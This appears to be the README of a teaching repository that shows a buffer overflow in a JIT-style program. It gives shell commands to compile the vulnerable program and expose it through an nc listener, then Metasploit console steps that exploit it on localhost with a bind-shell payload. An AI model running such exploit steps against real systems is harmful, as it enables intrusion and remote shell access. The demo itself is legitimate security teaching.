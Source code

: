 # ijit
Simple buffer overflow demo, in the style of a Just-In-Time compiled (JIT) program.

Install metasploit and then check this code out to your modules directory:

```
mkdir -p ~/.msf4/modules/exploits/linux
cd ~/.msf4/modules/exploits/linux
git clone https://github.com/olawlor/ijit
```

Now run the vulnerable program (compiled here as a 32-bit x86 program):

```
gcc -m 32 ijit.c -o ijit32 && nc -l -p 8888 | ./ijit32
```

Leave the vulnerable program running.

Now exploit it with msfconsole:

```
msfconsole
use exploit/linux/ijit/ijit 
reload
set RHOST 127.0.0.1
set nop x86/single_byte
set payload linux/x86/shell/bind_tcp
exploit
```

